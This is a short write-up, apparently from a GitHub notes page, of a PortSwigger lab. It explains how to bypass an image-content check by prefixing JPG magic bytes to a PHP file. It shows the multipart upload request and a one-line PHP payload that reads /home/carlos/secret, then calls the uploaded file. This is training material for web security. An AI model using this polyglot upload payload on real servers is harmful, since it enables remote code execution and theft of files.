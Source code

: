 
# Remote code execution via polyglot web shell upload

This lab contains a vulnerable image upload function. Although it checks the contents of the file to verify that it is a genuine image, it is still possible to upload and execute server-side code.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter


---------------------------------------------

References: 

- https://portswigger.net/web-security/file-upload



![img](images/Remote%20code%20execution%20via%20polyglot%20web%20shell%20upload/1.png)

---------------------------------------------

I uploaded a real JPG file and deleted as many bytes as possible. This is the least you can send so the server still finds it is a JPG image:



![img](images/Remote%20code%20execution%20via%20polyglot%20web%20shell%20upload/2.png)


So we can change everything to update a PHP file like this:

```
POST /my-account/avatar HTTP/2
...
-----------------------------223006367629168816071656253944
Content-Disposition: form-data; name="avatar"; filename="test.php"
Content-Type: text/php

<--JPG MAGIC NUMBER-->

<?php echo file_get_contents('/home/carlos/secret'); ?>

-----------------------------223006367629168816071656253944
...
```



![img](images/Remote%20code%20execution%20via%20polyglot%20web%20shell%20upload/3.png)


And then access /files/avatars/test.php to read the content of the file:



![img](images/Remote%20code%20execution%20via%20polyglot%20web%20shell%20upload/4.png)
